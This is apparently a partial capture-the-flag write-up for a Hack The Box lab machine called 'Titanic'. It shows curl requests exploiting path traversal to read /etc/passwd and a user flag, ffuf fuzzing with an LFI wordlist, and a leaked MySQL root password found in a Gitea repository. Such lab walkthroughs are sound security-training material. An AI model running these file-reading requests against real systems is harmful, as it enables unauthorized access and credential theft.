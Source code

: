 Initially I tried enumerating the parameters in the form presented on the website.
This returns a json doc:
```json
{"name": "qqq", "email": "aaa@email.com", "phone": "aaa", "date": "2025-04-23", "cabin": "Standard"}
```
{: .nolineno}

I thought perhaps this was a *format string* vulnerability - not the case.


re-examining the url parameter it looks to be a LFI issue.

`curl http://titanic.htb/download?ticket=../` - returns server error 500

`curl http://titanic.htb/download?ticket=../../../../../../etc/passwd` - returns the below:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
developer:x:1000:1000:developer:/home/developer:/bin/bash
...
```

If we can read files on the server, we can get the flag that should be stored as 'user.txt' on the user profile, in this case there is a user 'developer'.

`curl http://titanic.htb/download?ticket=../../../../../../home/developer/user.txt`

>**USER FLAG:** 3de2dc\*\*\*\*
{: .prompt-tip }

### Root Flag

Fuzzing the LFI: `ffuf -w ./SecLists-master/Fuzzing/LFI/LFI-Jhaddix.txt -u http://titanic.htb/download?ticket=../../../../../FUZZ -c`

(I tried to get a shell using `/proc/self/environ`{: .filepath} but it did not seem to be vulnerable to this.)

Fuzzing the LFI shows the servers `/etc/hosts`{: .filepath} file:

`GET /download?ticket=../../../../../../etc/hosts HTTP/1.1`

Using the URL to request this file returns:
```
127.0.0.1 localhost titanic.htb dev.titanic.htb

127.0.1.1 titanic
```
{: .nolineno}
Visiting the sub-domain: `http://dev.titanic.htb` reveals a Gitea page.

The 'explore' section shows a list of users, here our *developer* is found, there is also an *administrator* but they are not linked to any projects.

Looking at the repository `/docker-config/mysql/docker-compose.yml`{: .filepath}
```yaml
version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
```